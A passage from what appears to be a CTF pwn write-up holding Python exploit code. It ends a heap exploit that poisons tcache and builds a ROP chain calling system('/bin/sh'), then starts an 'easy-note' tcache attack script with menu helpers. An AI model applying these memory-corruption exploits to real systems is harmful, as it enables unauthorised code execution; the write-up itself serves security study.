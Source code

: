 ```python
add(11, 0x120)
delet(9)
delet(11)
delet(8)
delet(10)

edit(10, p64((stack_base) ^ heap_key))
add(12, 0x120)
add(13, 0x120)
pop_rdi_ret = libc_base + 0x000000000002AA82

edit(
    13,
    p64(0) * 3
    + p64(pop_rdi_ret)
    + p64(libc_base + next(libc.search(b"/bin/sh\x00")))
    + p64(libc_base + libc.sym.system),
)

ia()
```

---
### easy-note

Tcache attack:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *
from pwncli import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(choice):
    # ru(b">")
    sl(i2b(choice))


def add(idx, size):
    cmd(1)
    ru(b"Where? ")
    sl(i2b(idx))
    ru(b"size? ")
    sl(i2b(size))


def delet(idx):
    cmd(2)
    ru(b"Where? ")
    sl(i2b(idx))


```